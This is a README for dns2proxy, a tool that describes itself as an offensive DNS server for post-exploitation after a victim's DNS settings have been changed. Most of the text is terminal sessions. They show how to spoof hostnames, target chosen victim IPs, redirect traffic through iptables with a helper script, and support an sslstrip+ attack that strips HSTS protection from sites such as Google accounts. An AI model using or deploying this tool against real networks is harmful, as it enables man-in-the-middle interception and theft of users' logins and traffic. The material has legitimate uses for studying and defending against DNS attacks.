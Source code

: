 # dns2proxy  
Compatible with Python3-
Error-free version
 
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>

 
## Installation  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.

    $ sudo chmod +x install.sh
    $ sudo ./install.sh
    (venv)$ python dns2proxy.py


## Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
    Ex: 
    .facebook.com 1.2.3.4 
    .fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
    Ex: 
    www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
    Ex. 
    mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
    Ex: 
    127.0.0.1 
    4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
    Ex: 
    23.66.163.36 
    195.12.226.131   

resolv.conf: DNS server to forward the queries.
    Ex:
    nameserver 8.8.8.8


### Feature 1 
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
      
// launch in another terminal dns2proxy.py  
      
    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.s21sec.com  
    Address: 1.1.1.1  
    Name:   www.s21sec.com  
    Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
    root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
    .domain.com 192.168.1.1  
      
    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   aaaa.domain.com  
    Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
### Feature 2  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
    Non spoofing imap.gmail.com  
    Non spoofing mail.s21sec.com  
    Non spoofing www.google.com  
    Non spoofing www.apple.com  
    Non spoofing ccgenerals.ms19.gamespy.com  
    Non spoofing master.gamespy.com  
    Non spoofing gpcm.gamespy.com  
    Non spoofing launch.gamespyarcade.com  
    Non spoofing peerchat.gamespy.com  
    Non spoofing gamestats.gamespy.com  
    Specific host spoofing www.s21sec.com with 1.1.1.1  
    Specific domain IP .domain.com with 192.168.1.1  
    binded to UDP port 53.  
    waiting requests.  
    Starting sniffing in (eth0 = 172.16.48.128)....  
  
< at other terminal >  
 
    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.microsoft.com  
    Address: 172.16.48.128  
    Name:   www.microsoft.com  
    Address: 172.16.48.230  
    Name:   www.microsoft.com  
    Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
### Feature 3
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   webaccounts.google.com  
    Address: 172.16.48.128  
    Name:   webaccounts.google.com  
    Address: 172.16.48.230  
    Name:   webaccounts.google.com  
    Address: 74.125.200.84  

Another example

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
    Server:         127.0.0.1                                                     www.yahoo.com  
    Address:        127.0.0.1#53  
      
    Name:   wwww.yahoo.com  
    Address: 172.16.48.128  
    Name:   wwww.yahoo.com  
    Address: 172.16.48.230  
    Name:   wwww.yahoo.com  
    Address: 68.142.243.179  
    Name:   wwww.yahoo.com  
    Address: 68.180.206.184  
